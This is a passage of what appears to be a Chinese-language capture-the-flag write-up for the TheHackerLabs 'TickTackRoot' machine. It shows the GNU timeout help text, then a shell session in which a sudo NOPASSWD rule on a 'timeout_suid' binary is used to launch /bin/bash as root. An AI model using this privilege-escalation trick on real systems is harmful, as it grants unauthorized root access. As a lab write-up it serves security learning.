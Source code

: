 ```shell
                 also send a KILL signal if COMMAND is still running
                   this long after the initial signal was sent
  -s, --signal=SIGNAL
                 specify the signal to be sent on timeout;
                   SIGNAL may be a name like 'HUP' or a number;
                   see 'kill -l' for a list of signals
  -v, --verbose  diagnose to stderr any signal sent upon timeout
      --help        display this help and exit
      --version     output version information and exit

DURATION is a floating point number with an optional suffix:
's' for seconds (the default), 'm' for minutes, 'h' for hours or 'd' for days.
A duration of 0 disables the associated timeout.

Upon timeout, send the TERM signal to COMMAND, if no other SIGNAL specified.
The TERM signal kills any process that does not block or catch that signal.
It may be necessary to use the KILL signal, since this signal can't be caught.

Exit status:
  124  if COMMAND times out, and --preserve-status is not specified
  125  if the timeout command itself fails
  126  if COMMAND is found but cannot be invoked
  127  if COMMAND cannot be found
  137  if COMMAND (or timeout itself) is sent the KILL (9) signal (128+9)
  -    the exit status of COMMAND otherwise

GNU coreutils online help:
Report any translation bugs to
Full documentation
or available locally via: info '(coreutils) timeout invocation'

robin@TheHackersLabs-Ticktackroot:~$ sudo /usr/bin/timeout_suid /bin/bash
Try '/usr/bin/timeout_suid --help' for more information.

robin@TheHackersLabs-Ticktackroot:~$ sudo /usr/bin/timeout_suid 10s /bin/bash
root@TheHackersLabs-Ticktackroot:/home/robin# whoami
root

```

​    有个程序(ALL) NOPASSWD: /usr/bin/timeout_suid  

​	查看help，执行指定命令，并在指定时间(DURATION)后终止该命令，随便输入个时间，/bin/bash提权

​	`sudo /usr/bin/timeout_suid 10s /bin/bash` 

=======
---
title: "晚间沙龙：TickTackRoot-WP"
date: 2025-07-23
categories: [learn,wp,随笔]
tags: [learn,thehackerlabs_wp]
---
